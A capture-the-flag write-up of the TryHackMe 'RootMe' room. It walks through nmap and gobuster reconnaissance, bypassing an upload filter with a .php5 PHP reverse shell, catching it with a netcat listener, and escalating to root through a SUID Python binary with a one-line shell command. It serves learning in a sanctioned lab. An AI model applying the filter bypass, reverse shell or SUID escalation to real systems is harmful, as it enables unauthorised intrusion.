


# RootMe - Writeup

## Overview

This is my writeup for the RootMe CTF.  This is a free room of easy difficulty which tests your knowledge of privilege escalation.

## How to Access

I completed this room on TryHackMe.  The link to the room is shown below:

- https://tryhackme.com/room/rrootme

## Steps

#### Reconnaissance

Starting off with an `nmap` scan, I found two open ports: 22 (ssh) and 80 (http) which is running an Apache (v2.4.29) web server:

```
$ sudo nmap -sC -sV -oN initial 10.10.111.70
[sudo] password for v3r4x: 
Sorry, try again.
[sudo] password for v3r4x: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 00:27 BST
Nmap scan report for 10.10.111.70
Host is up (0.083s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds
```

I then navigated to the website to manually crawl it while `gobuster` ran in the background.  


`gobuster` indicated a hidden `/panel` directory which contains an file upload.

```
$ gobuster dir -u http://10.10.55.244/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.244/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/13 11:57:47 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.55.244/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.55.244/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.55.244/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.55.244/panel/]
```


#### Getting a Shell

I attempted to upload a PHP reverse shell that I downloaded from !(here)[http://pentestmonkey.net/tools/web-shells/php-reverse-shell].  I then changed the `$ip` variable to the IP address of my machine and the `$port` variable to `4444`.  However, it appears that the website does not allow `.php` files from being uploaded.  



After some head scratching and playing around with various file extensions, I realised that there are two PHP file extensions: `.php` and `.php5`.  I changed the shell's extension to the latter and the upload was successful:



I then started a `netcat` session which listens on port 4444, and navigated to the reverse shell I just uploaded using the `/uploads` directory, giving me access to the machine.

```
$ nc -nvlp 4444                                                                 
listening on [any] 4444 ...
connect to [10.9.150.161] from (UNKNOWN) [10.10.55.244] 44316
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:09:40 up 14 min,  0 users,  load average: 0.00, 0.37, 0.61
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ 
```

I used the `find` command in order to find the `user.txt` file:

```
bash-4.4$ find / type f -name user.txt 2> /dev/null
/var/www/user.txt
```

- `-type f`: looking exclusively for files.
- `-name user.txt`: looking for a file with the name "user.txt".
- `2> /dev/null`: error messages are not shown when the command executes.

Looking at the contents of `user.txt` gives the first flag:

```
bash-4.4$ cat /var/www/user.txt
THM{y*************l}
```

#### Privilege Escalation

The instructions state that there is an odd file when searching for SUID permissions.

```
bash-4.4$ find / -user root -perm /4000 2>/dev/null
find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

Using the command from the hint, I found that Python has been granted SUID permissions, so I used that to escalate my privileges.  This can be done numerous ways.  In this case, I used the following command:

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
cat /root/root.txt
THM{p******************n}
```

And that's it!

## Summary and Feedback

Overall, this is a very easy room.  If you are a beginner and want to learn a bit of privilege escalation, this is ideal for you!
